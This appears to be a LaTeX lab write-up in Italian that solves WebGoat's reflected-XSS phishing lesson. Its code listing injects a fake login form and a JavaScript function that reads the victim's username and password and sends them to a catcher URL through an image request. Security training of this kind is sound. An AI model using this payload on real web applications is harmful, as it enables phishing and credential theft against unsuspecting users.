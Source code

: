 \documentclass[a4paper,openright,italian]{article}
\begin{document}
\subsection{Phishing}
Un attaccante pu\`o rubare dati sensibili agli utenti di una web application vulnerabile ad attacchi di tipo XSS. Risolviamo la lezione dedicata al phishing di WebGoat: abbiamo a disposizione un form per effettuare una ricerca all'interno del codice sorgente di WebGoat.
\begin{figure}[h]
\centering
\includegraphics[width=280pt]{images/xss_phishing_1.png}
\caption{XSS Phishing Lesson}
\end{figure}
Solleviamo un attacco di tipo Reflected XSS nei confronti del campo di ricerca: inseriamovi del codice html per visualizzare un form che richiede nome utente e password. Per trarre in inganno la vittima, lo stile del form fittizio dovr\`a essere molto simile allo stile della pagina web che si sta attaccando.
\newline Infine, utilizziamo uno script Javascript per rubare nome utente e password che la vittima inserir\`a nel form: 
\begin{lstlisting}[caption={Form d'autenticazione fittizio e script per rubare nome utente e password}, label={code:tick},frame=trBL]
<script>
 function hack(){ 
   alert("Had this been a real attack... 
          Your credentials were just stolen. 
          User Name = " + document.forms[0].user.value + 
          "Password = " + document.forms[0].pass.value); 
   XSSImage=new Image; 
   XSSImage.src="http://localhost/WebGoat/catcher?PROPERTY=yes&user="
                + document.forms[0].user.value + "&password=" 
                + document.forms[0].pass.value + "";
 } 
</script>
<form><br><br><HR>
 <H3>This feature requires account login:</H3 >
 <br>
 <br>Enter Username:<br>
 <input type="text" id="user" name="user"><br>
 Enter Password:<br><input type="password" name = "pass"><br>
 <input type="submit" name="login" value="login" onclick="hack()">
 </form><br><br><HR>
\end{lstlisting}
\end{document}
